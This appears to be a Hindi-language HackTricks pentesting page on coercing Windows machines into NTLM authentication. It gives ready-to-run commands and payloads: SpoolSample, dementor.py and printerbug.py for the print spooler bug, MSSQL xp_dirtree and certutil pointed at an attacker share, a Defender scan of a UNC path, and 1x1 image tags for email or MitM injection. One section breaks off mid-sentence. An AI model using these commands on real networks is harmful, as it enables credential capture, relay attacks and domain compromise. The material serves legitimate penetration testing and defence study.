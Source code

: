 # एनटीएलएम विशेषाधिकारिक प्रमाणीकरण को बलपूर्वक करें

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ हैकट्रिक्स क्लाउड ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 ट्विटर 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ ट्विच 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 यूट्यूब 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापित करना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करने का एक्सेस** प्राप्त करना चाहते हैं? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटीज़**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक पीएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मेरा** **ट्विटर** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** **अनुसरण** करें।
* **हैकिंग ट्रिक्स साझा करें, [हैकट्रिक्स रेपो](https://github.com/carlospolop/hacktricks) और [हैकट्रिक्स-क्लाउड रेपो](https://github.com/carlospolop/hacktricks-cloud)** में पीआर जमा करके।

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) एक **संग्रह** है जिसमें C# का उपयोग करके MIDL कंपाइलर का उपयोग करके **दूसरों की आवश्यकता नहीं होने पर दूरस्थ प्रमाणीकरण ट्रिगर** कोड किया गया है।

## स्पूलर सेवा दुरुपयोग

यदि _**प्रिंट स्पूलर**_ सेवा **सक्रिय** है, तो आप कुछ पहले से जाने जाने वाले एडी क्रेडेंशियल का उपयोग करके डोमेन कंट्रोलर के प्रिंट सर्वर से नए प्रिंट जॉब्स पर **अपडेट** करने के लिए अनुरोध कर सकते हैं और बस इसे किसी सिस्टम पर **सूचना भेजने** के लिए कह सकते हैं।\
ध्यान दें कि प्रिंटर जब किसी अनिश्चित सिस्टम को सूचना भेजते हैं, तो उसे उस सिस्टम के खिलाफ **प्रमाणीकरण करने की आवश्यकता** होती है। इसलिए, एक हमलावर _**प्रिंट स्पूलर**_ सेवा को किसी अनिश्चित सिस्टम के खिलाफ प्रमाणीकरण करने के लिए बना सकता है, और सेवा **इस प्रमाणीकरण में कंप्यूटर खाता** का उपयोग करेगी।

### डोमेन पर विंडोज सर्वर्स खोजना

PowerShell का उपयोग करके, विंडोज बॉक्स की सूची प्राप्त करें। सर्वर आम तौर पर प्राथमिकता होते हैं, इसलिए हमें वहाँ ध्यान केंद्रित करना चाहिए:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### स्पूलर सेवाएं सुन रही हैं

थोड़ी बदली हुई @mysmartlogin's (विन्सेंट ले टूक्स) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) का उपयोग करके देखें कि क्या स्पूलर सेवा सुन रही है:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
आप लिनक्स पर rpcdump.py का उपयोग कर सकते हैं और MS-RPRN Protocol के लिए खोज कर सकते हैं।
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### एक सेवा से किसी भी होस्ट के खिलाफ प्रमाणीकरण करने के लिए सेवा से पूछें

आप यहाँ से [**SpoolSample को कंपाइल कर सकते हैं**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**।**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
या [**3xocyte का dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) या [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) का उपयोग करें अगर आप Linux पर हैं।
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### अनियंत्रित अनुमंडन के साथ संयोजन

यदि किसी हमलावर ने पहले से ही [अनियंत्रित अनुमंडन](unconstrained-delegation.md) के साथ किसी कंप्यूटर को कंप्रमाइज कर लिया है, तो हमलावर **प्रिंटर को इस कंप्यूटर के खिलाफ प्रमाणीकरण करने** के लिए उपयोग कर सकता है। अनियंत्रित अनुमंडन के कारण, **प्रिंटर के कंप्यूटर खाते का TGT** अनियंत्रित अनुमंडन वाले कंप्यूटर की मेमोरी में **सहेजा जाएगा**। क्योंकि हमलावर ने पहले से ही इस होस्ट को कंप्रमाइज कर लिया है, वह **इस टिकट को पुनः प्राप्त** कर सकेगा और इसका दुरुपयोग कर सकेगा ([टिकट पास करें](pass-the-ticket.md))।

## RCP बल प्रमाणीकरण

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange` हमला एक दोष का परिणाम है जो पाया गया है **एक्सचेंज सर्वर `PushSubscription` सुविधा** में। यह सुविधा एक्सचेंज सर्वर को किसी भी डोमेन उपयोगकर्ता के द्वारा बाधित करने की अनुमति देती है ताकि वह HTTP के माध्यम से किसी भी क्लाइंट द्वारा प्रदान किए गए होस्ट को प्रमाणीकृत कर सके।

डिफ़ॉल्ट रूप से, **एक्सचेंज सेवा SYSTEM के रूप में चलती है** और इसे अत्यधिक अधिकार (विशेष रूप से, यह **डोमेन पूर्व-2019 संचयी अपड
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
या इस दूसरी तकनीक का उपयोग करें: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Certutil.exe lolbin (Microsoft-signed binary) का उपयोग करके NTLM प्रमाणीकरण को बलपूर्वक करना संभव है:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML इन्जेक्शन

### ईमेल के माध्यम से

यदि आपके पास उस उपयोगकर्ता का **ईमेल पता** है जो आपके द्वारा कंप्रमाइज़ करना चाहते हैं, तो आप उसे एक **1x1 छवि** के साथ एक ईमेल भेज सकते हैं जैसे कि
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
### MitM

यदि आप किसी कंप्यूटर पर MitM हमला कर सकते हैं और उस पेज में HTML इंजेक्ट कर सकते हैं जिसे वह देखेगा, तो आप पेज में निम्नलिखित तरह की छवि इंजेक्ट करने की कोशिश कर सकते हैं:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1 क्रैकिंग

यदि आप [NTLMv1 चैलेंज कैप्चर कर सकते हैं तो यहाँ पढ़ें कैसे उन्हें क्रैक करें](../ntlm/#ntlmv1-attack)।\
_ध्यान रखें कि NTLMv1 को क्रैक करने के लिए आपको रिस्पॉंडर चैलेंज को "1122334455667788" पर सेट करना होगा_
